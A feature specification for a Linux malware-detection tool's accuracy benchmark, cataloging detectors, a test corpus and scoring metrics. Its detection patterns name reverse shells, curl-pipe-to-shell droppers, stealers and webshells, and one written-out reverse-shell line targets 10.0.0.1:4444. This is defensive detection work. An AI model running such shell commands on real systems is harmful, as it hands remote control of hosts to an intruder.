

# Feature Specification: Detection Accuracy & Validation Benchmark

**Feature Branch**: `002-detection-accuracy-benchmark`  
**Created**: 2026-10-03  
**Status**: Draft  
**Input**: User description: "AETHER — DETECTION ACCURACY & VALIDATION BENCHMARK. The Trustworthy Detection & False-Positive Control feature has now been implemented and its automated tests pass. Do NOT redesign the existing verdict architecture. The next objective is to determine whether Aether's actual detection engine is reliable across realistic benign, suspicious, and malicious Linux scenarios. Build a measurable validation framework to VALIDATE detection quality, not to increase alert volume."

---

## 1. System Audit & Current Detection Coverage Catalog

Aether's detection engine encompasses 7 inspection subsystems, 13 embedded YARA-X rules, 12 native Go script heuristics, and 25 specialized module auditors. The following catalog documents every detector, the evidence it requires, its permissible verdicts, known limitations, and likely error modes.

### 1.1 Filesystem & Script Heuristics (`internal/scanner/heuristics.go`)

| Detector Name | What It Detects | Required Evidence | Permissible Verdicts | Known Limitations | Likely False Positives | Likely False Negatives |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| `Heuristic_ELF_In_Dev` | Regular ELF binary in `/dev` tree (excluding `/dev/shm`, `/dev/pts`) | 4-byte ELF magic `\x7fELF`, path prefix `/dev/` | `ALERT` / `MALICIOUS` | Does not inspect memory-mapped devices. | Custom hardware drivers writing binary firmware to `/dev`. | Hidden subdirectories under `/dev/pts` or nested bind mounts. |
| `Heuristic_ELF_In_Temp_Escalated` | Executable ELF in `/tmp`, `/var/tmp`, `/dev/shm` combined with hidden filename or IOC signal | ELF magic, volatile path, `mode & 0111 != 0`, hidden name (`.*`) or hash IOC | `ALERT` / `MALICIOUS` | Relies on static directory prefixes. | Legitimate user compiling hidden dotfile binaries in `/tmp`. | Non-hidden ELF binaries with benign names executed via loader `ld-linux.so`. |
| `Heuristic_ELF_In_Temp` / `NonExec` / `BuildTree` | ELF binary in temporary directories | ELF magic, volatile path | `WARNING` (`SUSPICIOUS`) or `NOTICE` (`SAFE`) | Evaluates standard build markers (`Cargo.toml`, `go.mod`, `CMakeCache.txt`). | Custom build tools with non-standard directory layouts or root-owned build trees. | Malicious payloads crafted to mimic build trees with fake `Cargo.toml`. |
| `Heuristic_Hidden_Executable_In_System_Dir` | Hidden executable (`.name`) located inside `/bin`, `/sbin`, `/usr/bin`, `/etc` | `mode & 0111 != 0`, filename prefix `.`, system directory path | `WARNING` / `SUSPICIOUS` | Does not follow symlinks outside system dirs. | Temporary package manager swap files (`.dpkg-tmp`). | Obfuscated binaries with visible, misleading names mimicking system binaries. |
| `Heuristic_Suspicious_SUID_SGID` | SUID/SGID executable outside standard system directories | `S_ISUID` or `S_ISGID` bit, executable mode, non-standard directory | `ALERT` / `MALICIOUS` or `WARNING` / `SUSPICIOUS` | Only checks standard binary paths (`/bin`, `/sbin`, `/usr/bin`, `/usr/lib`). | Third-party commercial software installed in `/opt` requiring SUID. | Standard system binaries abused via GTFOBins without moving the binary. |
| `Heuristic_World_Writable_In_Etc` | World-writable configuration file in `/etc` | Path prefix `/etc/`, `mode & S_IWOTH != 0` | `WARNING` / `SUSPICIOUS` | Only checks static file modes on disk. | Benign shared symlinks or intentional lock files. | Group-writable configurations owned by compromised service accounts. |
| `File_Suspicious_Private_Key_Location` | Unowned cryptographic private key stored in `/tmp`, `/usr`, `/var`, `/lib`, or hidden paths | PEM/OpenSSH/RSA/EC private key header bytes, non-standard path, unowned by package DB | `WARNING` / `SUSPICIOUS` | Does not decrypt encrypted keys; checks first 2KB. | Legitimate developer keys temporarily extracted in test suites. | Password-protected PKCS#12 bundles or keys obfuscated with Base64 encoding. |
| `Script_Reverse_Shell_Interactive` | Interactive reverse shell redirection (`bash -i >& /dev/tcp/...`, `nc -e`, `socat`) | Regex matching `/dev/tcp`, `/dev/udp`, netcat `-e`, or socat shell pipes in unowned script | `ALERT` / `MALICIOUS` | Context-suppressed in doc metadata (`.dist-info`, `.md`, `.txt`). | Pentest tool scripts (`metasploit-framework`, `exploitdb`). | Obfuscated variable expansions (`$SH -i >& /dev/$PROTO/$IP/$PORT`). |
| `Script_OpenSSL_Reverse_Shell` | Encrypted reverse shell using OpenSSL client pipes | Regex matching `openssl s_client -connect ... \| sh` | `ALERT` / `MALICIOUS` | Suppressed in doc metadata. | Documentation explaining OpenSSL connection debugging. | Multi-line wrapped bash pipelines separating `s_client` and `sh`. |
| `Script_RedTeam_Persistence_Framework` | Red-team persistence framework implants (GhostShell, Kali-Master, fake systemd/cron hooks) | Regex string matches (`GHOST-SHELL`, `KALI-MASTER`, `systemd-resolved-updater`) | `ALERT` / `MALICIOUS` | Exact string signatures for known toolkits. | Benign detection test scripts or detection engineering repos. | Rebranded or custom-named adversary frameworks. |
| `Script_Process_Hiding_Procfs` | Stealth process hiding via tmpfs mount over `/proc/<PID>` | Regex matching `mount -t tmpfs ... /proc/<PID>` | `ALERT` / `MALICIOUS` | Regex targeted at mount commands. | Container startup scripts isolating `/proc` entries. | Kernel-level direct VFS hooks or unshare/namespace proc hiding. |
| `Script_Python_Ransomware_Encryptor` | Python script performing recursive directory encryption and file locking | Regex matching Fernet/AES + `os.walk`/`rglob` + `.encrypt`/`.locked`/`ransom` | `ALERT` / `MALICIOUS` | Context-suppressed in doc metadata. | Legitimate backup encryption utilities written in Python. | Compiled Go/Rust/C ransomware binaries without plain Python strings. |
| `Script_Data_Exfiltration_Stealer` | Script crawling directories, compressing documents, and transmitting outbound | Regex matching socket/HTTP + `os.walk` + `sendall`/`post` + `exfil`/`compress` | `ALERT` / `MALICIOUS` | Context-suppressed in doc metadata and unit tests. | Legitimate telemetry uploaders or diagnostic log collectors. | Stealers utilizing standard system tools (`rsync`, `rclone`, `curl -F`). |
| `Script_Download_And_Execute` | Dropper downloading and piping remote payloads (`curl \| sh`) | Regex matching `curl/wget ... \| sh/bash` | `WARNING` / `SUSPICIOUS` (escalates to `MALICIOUS` with persistence hook) | Suppressed in doc metadata. | Legitimate installer scripts (e.g. `rustup-init.sh`, `nvm.sh`). | Multi-stage droppers downloading to a temp file before separate execution. |

### 1.2 Embedded YARA-X Rules (`internal/yara/embedded_rules.go`)

| Rule Name | What It Detects | Required Evidence | Permissible Verdicts | Known Limitations | Likely False Positives | Likely False Negatives |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| `Linux_Webshell_PHP_Generic_Backdoor` | Obfuscated PHP code execution wrappers | `eval/assert/system` matching `$_POST/$_GET` superglobals | `ALERT` / `MALICIOUS` | Scans files $<2\text{MB}$. | Complex legitimate CMS plugins using `eval` for templating. | Webshells utilizing non-superglobal inputs or database-driven dynamic calls. |
| `Linux_Webshell_PHP_Known_Families` | Known PHP webshells (c99, r57, WSO, b374k, Weevely, China Chopper, Alfa) | Specific framework signature strings | `ALERT` / `MALICIOUS` | Scans files $<5\text{MB}$. | Security research repos, antivirus signature test files. | Heavily obfuscated variants with stripped framework headers. |
| `Linux_Webshell_JSP_Runtime_Exec` | Java Server Pages (JSP) command execution backdoors | `<%` + `Runtime.exec` / `ProcessBuilder` + `request.getParameter` | `ALERT` / `MALICIOUS` | Scans files $<1\text{MB}$. | Benign Java administrative web consoles. | Custom Java servlet classes compiled into `.jar`/`.war` without raw JSP tags. |
| `Linux_Backdoor_Reverse_Shell_OneLiner` | Multi-language reverse shell one-liners (Bash, Python, Perl, Ruby, Netcat, Socat) | Interactive reverse shell syntax strings | `ALERT` / `MALICIOUS` | Scans files $<2\text{MB}$. | Admin tools documentation, unit test fixtures. | Base64-encoded or XOR-encrypted shell wrappers. |
| `Linux_Backdoor_Encrypted_Reverse_Shell` | SSL/TLS encrypted reverse shells (OpenSSL, Socat SSL) | OpenSSL `s_client` pipes or Socat `openssl-connect` | `ALERT` / `MALICIOUS` | Scans files $<2\text{MB}$. | SSL connectivity test scripts. | Custom TLS sockets implemented in compiled binaries. |
| `Linux_Implant_RedTeam_Persistence_Framework` | Implant persistence hooks, fake services, and FIFO shells | Named strings, fake service names, tmpfs proc mounts | `ALERT` / `MALICIOUS` | Scans files $<2\text{MB}$. | Internal security tool test suites. | Novel persistence frameworks without known string identifiers. |
| `Linux_Rootkit_LDPRELOAD_Hook_Artifact` | Dynamic linker interception artifacts (`/etc/ld.so.preload` + `dlsym(RTLD_NEXT)`) | ELF binary containing preload path + hook functions (`readdir`, `fopen`, `unlink`) | `ALERT` / `MALICIOUS` | Requires ELF header + string combinations. | Legitimate performance profilers or sandboxing libraries (e.g. `fakeroot`). | Pure kernel rootkits or static binary patching without `dlsym`. |
| `Linux_Rootkit_Diamorphine_Reptile_Strings` | Linux kernel rootkit signatures (Diamorphine, Reptile) | Magic command strings (`diamorphine`, `is_invisible`, `r00t_gr0up`, `reptile_cmd`) | `ALERT` / `MALICIOUS` | Scans files $<10\text{MB}$. | Reverse engineering notes, threat intelligence reports. | Recompiled rootkits with renamed symbols and magic bytes. |
| `Linux_Malware_Cryptominer_Stratum_Pool` | Cryptocurrency mining configurations and Stratum pool connections | Stratum protocol URI + mining pool domains (`supportxmr`, `nanopool`) | `WARNING` / `SUSPICIOUS` | Scans files $<5\text{MB}$. | Benign network monitoring logs containing pool hostnames. | Private or custom mining proxy pools without standard domain names. |
| `Linux_Dropper_Remote_Pipe_Shell_Execution` | Staging droppers downloading and piping remote payloads | `curl/wget ... \| sh/python` | `WARNING` / `SUSPICIOUS` | Scans files $<1\text{MB}$. | Developer bootstrap scripts (`get-docker.sh`). | Droppers using separate download and `chmod +x` execution steps. |
| `Linux_Ransomware_Python_Locker` | Automated directory walking and encryption routines | Fernet/AES + `os.walk` + `.encrypt`/`.locked` | `ALERT` / `MALICIOUS` | Scans files $<5\text{MB}$. | Benign file archival encryption utilities. | Custom encryption ciphers implemented without standard library imports. |
| `Linux_Malware_Data_Exfiltration_Client` | Stolen directory harvesting and TCP/HTTP streaming | Network client + file list crawling + compression + exfil markers | `ALERT` / `MALICIOUS` | Scans files $<5\text{MB}$. | Cloud storage sync clients (`dropbox`, `nextcloud`). | Exfiltration using standard system utilities (`curl -T`, `scp`). |
| `Linux_Malware_Data_Exfiltration_Server` | C2 collection listener capturing stolen directories | Server bind/listen/accept + stolen tree reconstruction strings | `WARNING` / `SUSPICIOUS` | Scans files $<5\text{MB}$. | Benign file reception servers or backup daemons. | Ephemeral cloud storage buckets or webhook exfiltration endpoints. |

### 1.3 Process Module (`internal/modules/process/`)

| Detector Name | What It Detects | Required Evidence | Permissible Verdicts | Known Limitations | Likely False Positives | Likely False Negatives |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| `Process_Deleted_Binary_Suspicious_Location` | Process running from deleted binary in `/tmp`, `/var/tmp`, `/dev/shm` | `/proc/<PID>/exe` pointing to `(deleted)` path in temporary directories | `ALERT` / `MALICIOUS` | Evaluates running processes via `/proc`. | Legitimate transient build tools or test runners unlinking themselves. | Malicious processes keeping a valid unlinked file descriptor open elsewhere. |
| `Process_Deleted_Binary_Package_Upgrade` / `Replaced` | Process running older binary version replaced by package manager | `/proc/<PID>/exe` marked `(deleted)` but original path exists with new inode | `NOTICE` / `SUSPICIOUS` | Requires stat access to the host root or container root. | Orphaned daemon processes after manual package updates. | Attacker intentionally replacing binary on disk after execution to simulate package upgrade. |
| `Process_Fileless_Memory_ELF` | In-memory binary execution via `memfd_create` or anonymous memory | `/proc/<PID>/exe` resolving to `memfd:` or deleted memory descriptor | `ALERT` / `MALICIOUS` | Requires readlink on `/proc/<PID>/exe`. | JIT compilers or debugging engines using anonymous shared memory. | Code injection into running benign host processes (process hollowing/ptrace). |
| `Process_Kernel_Thread_Masquerade` | Userland process masquerading as kernel thread (e.g. `[kworker/...]`) | Process cmdline wrapped in brackets `[...]` but having non-zero VM size or user UID | `ALERT` / `MALICIOUS` | Inspects `/proc/<PID>/stat` and `/proc/<PID>/cmdline`. | Specialized hypervisor worker processes. | Userland processes with subtle non-bracketed names mimicking standard daemons. |
| `Process_System_Daemon_Masquerade` | Rogue process using standard daemon name running from unauthorized path | Known daemon name (e.g. `sshd`, `systemd`) executing outside `/sbin`, `/usr/sbin` | `ALERT` / `MALICIOUS` | Static map of known system daemon names. | Custom compiled instances of `sshd` running in non-standard test paths. | Arbitrary non-standard process names not present in daemon dictionary. |
| `Process_Root_User_Writable_Exe` | Root process executing binary from user-writable directory | `UID == 0`, executable path writable by non-root user/group | `ALERT` / `MALICIOUS` | Requires permission audit of full path hierarchy. | Shared administrative scripts in `/usr/local/bin` with loose permissions. | Privilege escalation where binary permissions were locked down after execution. |

### 1.4 Persistence Module (`internal/modules/persistence/`)

| Detector Name | What It Detects | Required Evidence | Permissible Verdicts | Known Limitations | Likely False Positives | Likely False Negatives |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| `Persistence_Multi_Vector_Persistence` | Same payload referenced across multiple independent persistence mechanisms | Identical target binary or hidden directory referenced in $\ge 2$ subsystems (systemd, cron, profiles, SSH) | `ALERT` / `MALICIOUS` | Correlates target paths across parsed persistence tables. | Complex administrative monitoring tools registering both cron and systemd units. | Adversary using distinct binary names or symlinks for each persistence vector. |
| `Persistence_Reverse_Shell_Primitive` | Autostart entry executing reverse shell one-liner | Cron, systemd, or profile unit containing `/dev/tcp`, netcat `-e`, or openssl pipes | `ALERT` / `MALICIOUS` | Parsed from unit files, cron lines, and shell RC files. | Intentional admin remote console recovery scripts. | Obfuscated shell invocations decoding payload from external data files. |
| `Persistence_Autostart_Tunnel` | Autostart service establishing persistent reverse SSH/tunnel | Unit executing `ssh -R`, `chisel`, `ngrok`, or `frpc` with background flags | `ALERT` / `MALICIOUS` | Keyword and flag parsing. | Legitimate remote maintenance tunnels maintained by system administrators. | Encrypted VPN tunnels configured via standard WireGuard or OpenVPN configs. |
| `Persistence_Exec_From_Temp` / `Hidden_Path` | Autostart entry invoking executable in `/tmp` or hidden directory | Service/cron target located in `/tmp`, `/var/tmp`, `/dev/shm`, or hidden path (`/.*`) | `ALERT` / `MALICIOUS` or `WARNING` / `SUSPICIOUS` | Checks resolved target executable path. | User crontab executing scripts from `~/.local/bin` or hidden dot directories. | Persistence pointing to legitimate `/usr/bin` wrapper script that executes payload. |
| `Persistence_Missing_Target_File` | Autostart unit pointing to non-existent executable file | Unit exists but target binary cannot be stat'd on disk | `NOTICE` / `SUSPICIOUS` | Detects orphaned startup hooks. | Uninstalled software leaving stale systemd symlinks behind. | Dead persistence hooks where attacker intentionally stages payload at boot time. |

### 1.5 Network, Kernel & Users Modules

| Module | Detector Name | What It Detects | Required Evidence | Permissible Verdicts | Known Limitations / Error Modes |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Network** | `Network_Wildcard_Listener_Unrecognized_Process` | Unmapped or unrecognized process listening on wildcard `0.0.0.0` or `::` | Socket inode mapped to unowned or suspicious binary | `WARNING` / `SUSPICIOUS` | May flag custom development web servers (e.g. `python3 -m http.server`). |
| **Network** | `Network_Suspicious_Raw_Packet_Socket` | Non-standard process opening raw packet socket (`SOCK_RAW` / `AF_PACKET`) | Socket type `SOCK_RAW` owned by non-whitelisted binary | `ALERT` / `MALICIOUS` | Suppressed for known network diagnostic tools (`tcpdump`, `wireshark`, `dhclient`). |
| **Kernel** | `Kernel_Hidden_LKM_Module` | Linux kernel module present in `/sys/module` or kallsyms but hidden from `/proc/modules` | Inconsistency between sysfs module tree and `/proc/modules` | `ALERT` / `MALICIOUS` | Requires privileged access to `/sys` and `/proc`. |
| **Kernel** | `Kernel_Modprobe_Install_Command` | Suspicious command execution hooks configured in `/etc/modprobe.d/*.conf` | `install <module> /bin/...` directive in modprobe configuration | `WARNING` / `SUSPICIOUS` | Standard distribution workaround directives for blacklisting modules. |
| **Users** | `Users_Extra_UID0_Account` | Non-root account configured with `UID == 0` in `/etc/passwd` | `/etc/passwd` line with `UID == 0` and username $\neq$ `root` | `ALERT` / `MALICIOUS` | High-confidence structural violation. Zero legitimate false positives. |
| **Users** | `Users_Shadow_Empty_Password` | Account with empty password hash field in `/etc/shadow` | `/etc/shadow` entry with empty password field `::` | `ALERT` / `MALICIOUS` | Requires root privileges (`EACCES` produces `UNKNOWN`). |
| **Users** | `Users_Passwd_World_Writable` / `Shadow_Insecure` | Insecure permissions on critical authentication databases | Mode bits `S_IWOTH` on `/etc/passwd` or `/etc/shadow` | `ALERT` / `MALICIOUS` | Structural permission check. |

---

## 2. Structured Detection Test Corpus

To measure detection accuracy objectively without executing malware, the test framework defines a structured corpus comprising 5 distinct categories with deterministic static fixtures and synthetic host states.



### Category A: Benign Corpus (Zero False-Positive Target)
1. **Standard System Daemons**: `systemd`, `sshd`, `cron`, `rsyslog`, `udevd`, `dbus-daemon`.
2. **Package-Managed Binaries**: Coreutils, Python standard library, standard Perl/Bash utilities.
3. **Python Ecosystem Packages**: Documentation metadata (`.dist-info/METADATA`, `.egg-info`), package unit test trees (`twisted/test/`, `cheroot/test/`, `joblib/test/`), doc files (`README.md`, `setup.py`).
4. **Development Toolchains**: Rust `target/debug/build/`, Go `go-build/`, CMake out-of-tree build caches, intermediate `.o` object files.
5. **Installed Pentest Tooling**: Authorized security tools in `/usr/share/metasploit-framework`, `/usr/share/exploitdb`, `/usr/share/peass`, `pypykatz`, `nxc`.
6. **Legitimate Administrative Scripts**: System maintenance scripts, Docker/K8s bootstrap helpers, log rotation scripts.
7. **Standard Crontabs**: Distribution cron jobs in `/etc/cron.daily`, standard user crontab entries.
8. **Legitimate Systemd Units**: Standard service units, user systemd timers, template units (`user@.service`).
9. **Authorized SSH Configurations**: Hardened `sshd_config`, standard user `authorized_keys`, root authorized keys.
10. **Legitimate Network Listeners**: Nginx/Apache on 80/443, local loopback development proxies on `127.0.0.1:8080`.
11. **Legitimate Kernel Modules**: Standard in-tree drivers, DKMS modules (NVIDIA, ZFS, VirtualBox).

### Category B: Malicious Corpus (100% Threat Recall Target)
1. **Interactive Reverse Shells**: Unowned bash `/dev/tcp`, netcat `-e`, socat pty, inline python/perl/ruby sockets.
2. **Encrypted Reverse Shells**: OpenSSL `s_client` pipes, socat openssl-connect.
3. **Webshells**: PHP dynamic evaluation (`eval($_POST)`), known frameworks (c99, r57, WSO, b374k, Weevely), JSP `Runtime.exec`.
4. **Ransomware Lockers**: Python Fernet/AES recursive file encryption routines with ransom notes.
5. **Data Exfiltration Stealers**: Directory crawling stealers compressing documents and streaming outbound over raw TCP/HTTP.
6. **Malicious Download Droppers**: Unowned scripts downloading remote payloads and piping to execution shells (`curl \| bash`) with persistence hooks.
7. **Unauthorized Privileged Accounts**: `/etc/passwd` containing backdoor accounts with `UID == 0` (e.g. `toor:x:0:0:...`).
8. **Malicious SSH Persistence**: Backdoor SSH keys injected into hidden paths or non-standard user profiles.
9. **Malicious Systemd & Cron Persistence**: Service units executing payloads from `/tmp` or hidden paths, multi-vector persistence hooks.
10. **Memory-Only Fileless Execution**: Processes running out of `memfd:`, deleted executables in `/tmp`.
11. **Kernel Rootkit Indicators**: Diamorphine/Reptile magic string artifacts, `/sys/module` vs `/proc/modules` hidden modules.
12. **Cryptographic IOC Matches**: Files and processes matching confirmed threat SHA-256 hashes and malicious IP/CIDR indicators.

### Category C: Suspicious & Ambiguous Corpus (Differentiated Triage Target)
1. **Dual-Use Administration Scripts**: Standalone `curl \| sh` installer scripts in `/usr/local/bin` without autostart persistence (`WARNING` / `SUSPICIOUS`).
2. **Post-Upgrade Deleted Binaries**: Running daemons whose on-disk binary was upgraded by `apt`/`pacman` (`NOTICE` / `SUSPICIOUS`).
3. **Unmapped Wildcard Listeners**: Development web servers listening on `0.0.0.0` without package attribution (`WARNING` / `SUSPICIOUS`).
4. **Loopback Debug Services**: Microservice listeners bound exclusively to `127.0.0.1` (`INFO` / `SAFE`).
5. **Non-Standard SUID Binaries**: Custom internal tools with SUID bits in `/opt` (`WARNING` / `SUSPICIOUS`).
6. **Private Keys in Home Subdirectories**: Unencrypted developer private keys in non-standard subtrees (`WARNING` / `SUSPICIOUS`).

### Category D: Environmental Edge Cases (Engine Robustness Target)
1. **Deep Recursive & Cyclic Symlinks**: Symlink loops (`dir/link -> ..`) asserting `O_NOFOLLOW` containment.
2. **Enormous & Sparse Files**: Files exceeding `MaxFileSize` (50MB) and sparse multi-gigabyte files asserting zero memory exhaustion.
3. **Deleted Binaries in Container Namespaces**: Containerized processes with namespace-isolated `/proc/<PID>/root`.
4. **Multi-Vector Collision Handling**: Single payload simultaneously wired into 4 persistence hooks asserting single consolidated finding.
5. **Mixed Package Trees**: Unowned trojanized files placed inside valid package directories (e.g. `/usr/lib/python3/dist-packages/malware.py`).
6. **Compound Extension Tricks**: Files named `report.pdf.sh` or `data.txt` with executable headers.

### Category E: Partially Visible / Permission-Denied Corpus (Abstention Contract Target)
1. **Unreadable System Shadow File**: `/etc/shadow` with mode `0600` scanned as unprivileged user (expected `UNKNOWN`, 0 threat alerts).
2. **Restricted Cron Spools**: `/var/spool/cron/crontabs/root` scanned as unprivileged user (expected `UNKNOWN`).
3. **Restricted Process Descriptors**: `/proc/1/exe` or `/proc/1/fd` scanned as non-root user (expected `UNKNOWN` / graceful skip).
4. **Missing Capabilities**: Root-only raw socket inspections executed without `CAP_NET_RAW` / `CAP_NET_ADMIN`.

---

## 3. Expected Verdict & Evaluation Contract

Every test case in the validation corpus must be defined by an immutable evaluation contract specifying the complete expected analytical decision:

```json
{
  "test_id": "CORPUS-MAL-001",
  "category": "MALICIOUS",
  "subcategory": "reverse_shell_interactive",
  "target_path": "fixtures/malicious/revshell_bash.sh",
  "expected": {
    "verdict": "MALICIOUS",
    "severity_range": ["ALERT"],
    "evidence_strength": "StrengthDirect",
    "required_corroboration": [],
    "min_confidence": "HIGH",
    "rationale_contains": "Interactive reverse shell",
    "expected_rules": ["Script_Reverse_Shell_Interactive", "Linux_Backdoor_Reverse_Shell_OneLiner"],
    "mitre_technique": "T1059.004"
  }
}
```

### Evaluation Decision Matrix

| Corpus Scenario | Expected Verdict | Permissible Severity | Expected Evidence Strength | Required Corroboration |
| :--- | :--- | :--- | :--- | :--- |
| **Direct Malware (Unowned Path)** | `MALICIOUS` | `ALERT` | `StrengthDirect` | None (Self-Sufficient) |
| **Direct Malware (Package Path / Trojan)** | `MALICIOUS` | `ALERT` | `StrengthDirect` | None (Direct Override) |
| **Weak Dropper + Persistence Hook** | `MALICIOUS` | `ALERT` | `StrengthCorroborated` | `persistence:*` |
| **Deleted Binary in `/tmp` + Active Socket**| `MALICIOUS` | `ALERT` | `StrengthCorroborated` | `active_socket:*` |
| **Uncorroborated Dropper Script** | `SUSPICIOUS` | `WARNING` | `StrengthContextual` | None |
| **Deleted Binary After Package Upgrade** | `SUSPICIOUS` | `NOTICE` | `StrengthContextual` | None |
| **Doc Metadata with Example Commands** | `SAFE` | `NOTICE` | `StrengthContextual` | None (Context Suppressed) |
| **Package Unit Test with Mock Server** | `SAFE` | `NOTICE` | `StrengthContextual` | None (Context Suppressed) |
| **Installed Pentest Tooling (Trusted Mode)**| `SAFE` | `INFO` | `StrengthContextual` | None (Pentest Suppressed) |
| **Permission Denied Target (`EACCES`)** | `UNKNOWN` | `INFO` | `StrengthIncomplete` | None (Abstention) |

---

## 4. User Scenarios & Testing *(mandatory)*

### User Story 1 - Automated Detection Benchmark Execution (Priority: P1) 🎯 MVP

As a security engineer or QA auditor,  
I want to run a dedicated benchmark command (`go test -tags yara ./test/benchmark/...` or `aether benchmark`) that evaluates the entire detection engine across all 5 corpus categories,  
So that I can measure actual detection precision, recall, and false-positive rates objectively across every release.

**Why this priority**: Without an automated measurement harness, claims of detection quality or false-positive resistance cannot be scientifically proven or defended.

**Independent Test**: Can be executed against synthetic corpus fixtures; produces a structured report containing counts of True Positives, False Positives, True Negatives, False Negatives, Precision, Recall, and False-Positive Rate.

**Acceptance Scenarios**:
1. **Given** a benchmark suite containing 50 benign fixtures and 30 malicious fixtures, **When** the benchmark runs, **Then** the framework outputs verified counts for TP, FP, TN, FN, Precision, and Recall without executing any payload.
2. **Given** a benchmark run encountering an unexpected `MALICIOUS` verdict on a benign package fixture, **When** results are tallied, **Then** the test suite fails with a detailed failure report documenting the responsible detector rule and matched evidence.

---

### User Story 2 - Automated False-Positive Regression Tracking (Priority: P2)

As a detection engineer,  
I want every false positive identified during testing to be codified as a permanent regression test fixture,  
So that once a false alarm is eliminated, subsequent signature additions or engine updates can never reintroduce the same false alarm.

**Why this priority**: Prevents engine quality degradation over time as new rules and features are merged.

**Independent Test**: Can be tested by running the regression suite against historical false-positive fixtures (e.g. Python package metadata, test mocks) and verifying 100% pass rate.

**Acceptance Scenarios**:
1. **Given** a historical false-positive fixture (e.g. `elasticsearch.dist-info/METADATA`), **When** scanned by the benchmark suite, **Then** the finding produces `VerdictSafe` / `NOTICE` and 0 `MALICIOUS` alerts.
2. **Given** an unowned modified copy of the same file placed in `/tmp/backdoor.py`, **When** scanned, **Then** the engine correctly produces `VerdictMalicious`.

---

### User Story 3 - Adversarial & Evasion Robustness Assessment (Priority: P3)

As a threat researcher,  
I want the benchmark framework to evaluate detection resilience against common static evasion techniques (whitespace variations, quoting tricks, variable slicing, alternate interpreters),  
So that the project understands which evasion techniques bypass current static detectors and can prioritize future detection engineering.

**Why this priority**: Real-world adversaries actively mutate script payloads to defeat simple regex signatures. Understanding blind spots prevents false confidence.

**Independent Test**: Evaluates mutated variations of reverse shell and webshell fixtures against the detector suite and reports static detection resilience percentages.

**Acceptance Scenarios**:
1. **Given** a reverse shell fixture with alternate quoting (e.g. `bash -i >& /dev/tcp/"10.0.0.1"/4444 0>&1`), **When** scanned, **Then** the benchmark reports whether the rule detected or missed the mutation.
2. **Given** an evasion mutation that bypasses detection, **When** recorded, **Then** the framework documents it under **Evasion Gap Analysis** without crashing.

---

### User Story 4 - Multi-Environment Consistency Validation (Priority: P4)

As an incident responder deploying Aether across heterogeneous Linux fleets,  
I want detection accuracy to remain consistent across different distributions (Debian, Arch, RHEL) and privilege levels (root vs non-root),  
So that the tool behaves predictably regardless of whether it is executed in a container, a developer workstation, or a hardened server.

**Why this priority**: False positives or missed detections caused purely by environment differences degrade operational trust.

**Independent Test**: Evaluates identical corpus fixtures under simulated Debian (`dpkg`), Arch (`pacman`), and unmanaged root filesystems.

**Acceptance Scenarios**:
1. **Given** a scan executed as non-root encountering unreadable `/etc/shadow`, **When** evaluated, **Then** the engine emits `VerdictUnknown` with reason `Permission Denied` without incrementing threat tallies.
2. **Given** the same scan executed with root privileges, **When** `/etc/shadow` contains an empty password, **Then** the engine escalates the finding to `VerdictMalicious`.

---

## 5. Edge Cases & Robustness Handling

- **Cyclic Symlink Directories**: Traversal encounters recursive directory symlinks (`dir/sub/link -> dir`). The engine must reject symlinks via `O_NOFOLLOW` and complete inspection without infinite recursion.
- **Sparse & Gigabyte Files**: Targets with enormous allocated sizes (e.g. 100GB sparse virtual disks or core dumps) must respect `MaxFileSize` (50MB) and `MemoryBudgetTracker` bounds, recording `Scanned Metadata Only` without panicking.
- **Deleted Binaries in Container Namespaces**: Processes running inside container namespaces whose executable is deleted relative to host root must be evaluated relative to `/proc/<PID>/root` to prevent false package-upgrade classifications.
- **Trojanized Distribution Files**: A binary listed in `/var/lib/dpkg/info/*.list` that has been modified to include an interactive reverse shell or rootkit hook. The engine MUST produce `MALICIOUS` with status `modified_package`, overriding benign package suppression per Constitutional Principle V.
- **Multiple Simultaneous Signatures**: A file matching 3 YARA rules and 2 native heuristics simultaneously. The engine must emit 1 consolidated finding with `ContributingDetectors`, preventing artificial confidence inflation.

---

## 6. Requirements *(mandatory)*

### Functional Requirements

- **FR-001**: **Dedicated Benchmark Test Harness**: The system MUST provide an automated benchmark harness (`internal/benchmark` or `test/benchmark`) capable of evaluating the complete Aether detection pipeline against structured corpus fixtures.
- **FR-002**: **Structured Corpus Schema**: Every test case in the benchmark corpus MUST be defined by a structured contract containing `test_id`, `category`, `target_path`, `expected_verdict`, `expected_severity_range`, `expected_evidence_strength`, and `required_corroboration`.
- **FR-003**: **Objective Metric Calculation & Zero-Denominator Safety**: The benchmark harness MUST calculate and output:
  - Binary Threat Metrics: True Positives ($TP$), False Positives ($FP$), True Negatives ($TN$), False Negatives ($FN$)
  - Precision: $\frac{TP}{TP + FP}$ (defined as $1.0$ if $TP=0 \land FP=0$; $0.0$ if $TP+FP=0 \land FP>0$)
  - Recall: $\frac{TP}{TP + FN}$ (defined as $1.0$ if $TP=0 \land FN=0$; $0.0$ if $TP+FN=0 \land FN>0$)
  - False-Positive Rate: $\frac{FP}{FP + TN}$ (defined as $0.0$ if $FP+TN=0$)
  - F1-Score: $2 \times \frac{\text{Precision} \times \text{Recall}}{\text{Precision} + \text{Recall}}$ (defined as $0.0$ if $\text{Precision}+\text{Recall}=0$)
  - Total Detection Coverage Index ($DCI$) across cataloged threat classes.
  - **Triage & Abstention Quality Metrics**: Separate metrics evaluating non-binary categories:
    - $\text{SuspiciousTriageAccuracy}$: Percentage of Category C cases correctly classified as `SUSPICIOUS` without over-escalation to `MALICIOUS` ($FP$) or under-classification to `SAFE` ($FN$).
    - $\text{AbstentionAccuracy}$: Percentage of Category E partial-visibility cases correctly classified as `UNKNOWN` (guaranteeing `UNKNOWN != SAFE`).
  - **Zero-Value Invariant**: Metric calculations must NEVER emit `NaN`, `+Inf`, `-Inf`, or undefined numbers in JSON reports.
